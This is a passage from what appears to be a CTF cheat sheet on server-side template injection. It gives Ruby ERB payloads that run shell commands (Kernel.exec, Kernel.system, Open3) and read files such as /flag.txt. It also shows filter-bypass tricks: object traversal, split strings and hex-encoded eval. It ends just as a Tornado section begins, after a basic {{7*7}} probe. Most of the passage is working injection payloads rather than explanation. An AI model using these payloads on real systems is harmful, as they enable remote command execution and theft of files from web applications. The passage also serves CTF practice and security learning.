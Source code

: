     ```
    <%= Kernel.exec('cat /flag.txt') %>
    <%= Kernel.system('ls -la') %>
    ```
    

## Bypass Techniques

If basic injection is filtered:

1. **Using Alternative Syntax**:
    
    ```
    <% require 'open3' %><%= Open3.capture2('cat /flag.txt') %>
    ```
    
2. **Object Traversal**:
    
    ```
    <%= [8].class.ancestors[1].ancestors[1].constants.find_all { |c| c =~ /File/ }[0].to_s.constantize.new('/flag.txt').read %>
    ```
    
3. **Breaking Up Strings**:
    
    ```
    <%= "cat"+" "+"/flag.txt" %>
    <%= eval("File.op"+"en('/flag.txt').read") %>
    ```
    
4. **Using Unicode/Hex Encoding**:
    
    ```
    <%= eval("\x73\x79\x73\x74\x65\x6d('cat /flag.txt')") %>
    ```
    
# SSTI for Tornado Templates (Python)

Tornado templates are Python-based templating engines often used with the Tornado web framework. Here's how to perform Server-Side Template Injection (SSTI) in Tornado templates for CTF challenges:

## Basic Testing

To confirm a Tornado template injection vulnerability:

```
{{ 7 * 7 }}
```

If this returns `49`, you've confirmed the vulnerability.

## Advanced Payloads

### Object Exploration

